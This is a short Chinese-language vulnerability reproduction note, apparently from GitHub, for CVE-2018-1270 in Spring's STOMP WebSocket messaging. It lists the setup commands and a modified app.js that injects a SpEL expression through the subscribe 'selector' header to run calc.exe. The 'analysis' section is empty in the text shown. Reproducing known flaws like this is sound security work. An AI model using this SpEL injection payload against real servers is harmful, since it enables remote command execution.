

### CVE-2018-1270 RCE

#### 环境搭建

```
git clone git@github.com:spring-guides/gs-messaging-stomp-websocket.git
cd gs-messaging-stomp-websocket
git checkout 6958af0b02bf05282673826b73cd7a85e84c12d3
cd complete
mvn spring-boot:run
```


#### 漏洞复现

篡改app.js的内容，插入恶意selector代码：

```js
function connect() {
    var header  = {"selector":"T(java.lang.Runtime).getRuntime().exec('calc.exe')"};
    var socket = new SockJS('/gs-guide-websocket');
    stompClient = Stomp.over(socket);
    stompClient.connect({}, function (frame) {
        setConnected(true);
        console.log('Connected: ' + frame);
        stompClient.subscribe('/topic/greetings', function (greeting) {
            showGreeting(JSON.parse(greeting.body).content);
        },header);
    });
}
```



然后保存 Ctrl + S，然后点击Connect再随便Send一些字符，成功触发漏洞


#### 漏洞分析

